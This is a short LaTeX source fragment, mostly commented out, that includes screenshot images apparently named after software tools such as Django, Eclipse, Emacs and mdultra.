%% 	
\includegraphics[width=1.1\textwidth]{img/django.png}
%% \end{center}
% \begin{center}
% 	
\includegraphics[width=1.1\textwidth]{img/eclipse.png}
% \end{center}
%% \begin{center}
%% 	
\includegraphics[width=1.1\textwidth]{img/emacs.png}
%% \end{center}
%% \begin{center}
%%	
\includegraphics[width=1.1\textwidth]{img/mdultra.png}
%% \end{center}
% \begin{center}
